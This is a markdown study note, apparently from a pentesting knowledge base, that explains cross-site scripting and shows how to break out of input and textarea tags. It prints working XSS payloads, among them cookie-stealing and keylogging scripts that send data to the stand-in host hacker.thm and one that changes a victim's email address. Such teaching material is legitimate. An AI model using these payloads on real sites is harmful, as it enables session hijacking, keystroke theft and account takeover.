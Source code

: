 ```yaml
---
title: Cross-site Scripting
---
```


_Cross-Site Scripting_, is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Cross-site scripting vulnerabilities are extremely common:

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

The XSS [payload](knowledge/off-sec/glossary/payload.md) is the JavaScript code we wish to be executed on the targets computer.

There are two parts to the payload:

- _The intention_ - it's is what you wish the JavaScript to actually do
- _The modification_ - it's the changes to the code we need to make it execute as every scenario is different

## Examples of XSS intentions

- Proof of Concept - the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website
  - `<script>alert('XSS');</script>`
- Stealing user session from Cookies
  - `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key logging
  - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Targeted at the business logic
  - a lot more specific than the examples above
  - calling a particular network resource or a JS fn, e.g. `user.changeEmail()`
  - `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Types of XSS

- [reflected-xss](knowledge/off-sec/pentesting/reflected-xss.md)
- [stored-xss](knowledge/off-sec/pentesting/stored-xss.md)
- [dom-based-xss](knowledge/off-sec/pentesting/dom-based-xss.md)
- [blind-xss](knowledge/off-sec/pentesting/blind-xss.md)

## Escaping HTML

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)

Let's say, we have a form that takes a name and renders it inside the `input` tag:

```html
<div class="text-center">
  <h2>Hello, <input value="Adam" /></h2>
</div>
```

The JavaScript payload can't run it from inside the `input` tag. We need to escape the `input` tag first so the payload can run properly. We can do this with the following payload:

```
"><script>alert('THM');</script>
```

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

```html
<div class="text-center">
  <h2>
    Hello, <input value="" />
    <script>
      alert("THM");
    </script>
    ">
  </h2>
</div>
```

In case of `textarea`, escaping looks a bit different. We're closing the `textarea` tag first:

```html
<!-- payload -->
</textarea><script>alert("THM");</script>
```

```html
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert("THM");</script></textarea></h2>
</div>
```

To get around the filters, we can also take advantage of the additional attributes of the tags, such as the `onload` event of an `img` tag. `onload` executes the code of your choosing once the image specified in the `src` attribute has loaded onto the web page:

```
/images/cat.jpg" onload="alert('THM');` 
```
